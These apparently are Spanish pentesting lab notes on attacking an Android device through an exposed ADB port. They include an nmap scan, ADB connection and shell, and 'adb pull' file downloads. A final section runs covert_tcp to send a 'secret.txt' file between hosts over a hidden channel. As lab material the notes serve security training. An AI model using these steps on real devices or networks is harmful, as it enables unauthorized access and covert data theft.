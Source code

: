 # TOOLS MOVIL ANDROID
## ADB (Android Debug Bridge)
es una herramienta de línea de comandos incluida en el kit de desarrollo de software de Android (SDK) que se utiliza principalmente para el desarrollo y la depuración de aplicaciones de Android. ADB proporciona una interfaz de comunicación entre un dispositivo Android y una computadora, lo que permite a los desarrolladores interactuar con dispositivos Android desde la línea de comandos de una computadora.
### Instalar
`sudo apt-get install android-tools-adb
`
### Escaneos Nmap 
```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF]
└─# nmap -p- --open -sS --min-rate 4000 -vvvv -n -Pn 192.168.200.161 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 23:01 -05
Initiating ARP Ping Scan at 23:01
Scanning 192.168.200.161 [1 port]
Completed ARP Ping Scan at 23:01, 0.16s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:01
Scanning 192.168.200.161 [65535 ports]
Discovered open port 5555/tcp on 192.168.200.161
Completed SYN Stealth Scan at 23:02, 67.13s elapsed (65535 total ports)
Nmap scan report for 192.168.200.161
Host is up, received arp-response (0.11s latency).
Scanned at 2023-02-22 23:01:42 -05 for 67s
Not shown: 40467 filtered tcp ports (no-response), 25067 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
5555/tcp open  freeciv syn-ack ttl 64
MAC Address: 00:0C:29:40:6D:AC (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 67.82 seconds
           Raw packets sent: 165329 (7.274MB) | Rcvd: 25071 (1.003MB)
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```                                                                     
Se puede verificar que el puerto `5555` esta abierto, y para conectarnos utilizaremos la herramienta `adb`
### adb connect ip:port
El comando adb connect ip:port se utiliza para conectarse a un dispositivo Android a través de una red TCP/IP en lugar de una conexión USB. Este comando permite que un dispositivo Android y una computadora se comuniquen entre sí a través de una red inalámbrica en lugar de una conexión por cable USB.
```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────                                                     
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# adb connect 192.168.200.161:5555 
connected to 192.168.200.161:5555
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
### adb devices
`adb devices`.- Si el dispositivo está conectado y configurado correctamente, deberías ver una lista de dispositivos conectados en la salida del comando. Una vez que estés conectado al dispositivo Android, puedes utilizar los comandos de ADB para realizar tareas de pentesting, como la recopilación de información, la ejecución de comandos remotos en el dispositivo y la identificación de vulnerabilidades.
```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────                                            
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# adb devices                     
List of devices attached
192.168.200.161:5555    device
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
### adb shell
El comando adb shell se utiliza para abrir una terminal de shell en un dispositivo Android conectado a través de ADB. Una vez que se ejecuta este comando, se establece una sesión de shell en el dispositivo Android y se puede interactuar con el sistema operativo Android a través de comandos de shell.
```ruby
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# adb shell  
x86_64:/ $ ls
acct       d                    init                   init.usb.rc         oem                     proc     sys                       vendor_hwservice_contexts 
bin        data                 init.android_x86_64.rc init.zygote32.rc    plat_file_contexts      product  system                    vendor_property_contexts  
bugreports default.prop         init.environ.rc        init.zygote64_32.rc plat_hwservice_contexts sbin     ueventd.android_x86_64.rc vendor_seapp_contexts     
cache      dev                  init.rc                lib                 plat_property_contexts  sdcard   ueventd.rc                vendor_service_contexts   
charger    etc                  init.superuser.rc      mnt                 plat_seapp_contexts     sepolicy vendor                    vndservice_contexts       
config     fstab.android_x86_64 init.usb.configfs.rc   odm                 plat_service_contexts   storage  vendor_file_contexts      
x86_64:/ $ cd sdcard
x86_64:/sdcard $ ls
Alarms Android DCIM Download Movies Music Notifications Pictures Podcasts Ringtones 
x86_64:/sdcard $
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Algunos ejemplos de comandos que se pueden ejecutar dentro de la sesión de shell de ADB incluyen:

> - **ls:** lista los archivos y directorios en el directorio actual.
> - **cd:** cambia el directorio actual.
> - **cat:** muestra el contenido de un archivo.
> - **pm:** gestiona paquetes de aplicaciones en el dispositivo, como la instalación o desinstalación de aplicaciones.
> - **settings:** modifica la configuración del sistema en el dispositivo, como la configuración de Wi-Fi, la configuración de pantalla, etc.
#### Ejemplo
Este es un ejemplo de como listar información.
`cat Tradeinfo`


# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop


Covert TCP
Covert
Covert_tcp source code Live Demo Covert TCP Live Demo-Youtube

# Compile the Code  
cc -o covert_tcp covert_tcp.c
  
# Reciever Machine(192.168.29.53)  
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 9999 -dest_port 8888 -server -file recieve.txt  
 
# Sender Machine(192.168.29.123) 
# Create A Message file that need to be transferred Eg:secret.txt
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 8888 -dest_port 9999 -file secret.txt

